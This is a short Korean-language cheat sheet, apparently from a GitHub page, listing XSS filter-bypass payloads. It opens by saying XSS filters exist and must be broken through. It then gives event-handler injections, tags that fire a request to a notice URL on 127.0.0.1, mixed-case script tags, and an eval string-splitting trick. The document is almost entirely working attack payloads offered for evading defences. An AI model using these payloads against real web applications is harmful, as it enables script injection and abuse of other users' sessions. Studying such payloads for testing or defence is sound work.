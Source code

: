 # XSS 공격을 방어하기 위한 다양한 패치와 필터링 존재.

우리는 그것을 뚫어버려야 한다!!!!

## 1. 백 슬래시

```javascript
<svg onload = "alert('1')">

<img src=# onclick="alert('1')">
<img src=# onmouceover="alert('1')">
```

## 2. 링크

```javascript
<img src="http://127.0.0.1:8000/notice?id=admin">
<embed src="http://127.0.0.1:8000/notice?id=admin"/>
<link rel="stylesheet" href="http://127.0.0.1:8000/notice?id=admin">
<object data=’./notice?id=admin’ ></object>
```

## 3. 대소문자 이용

```javascript
<Script>alert("1")</ScripT>
```

## 4. 문자열 분리

```javascript
<img onclick='var s="aler"+"t(al"+"ert"+"(1));";eval(s);>
```
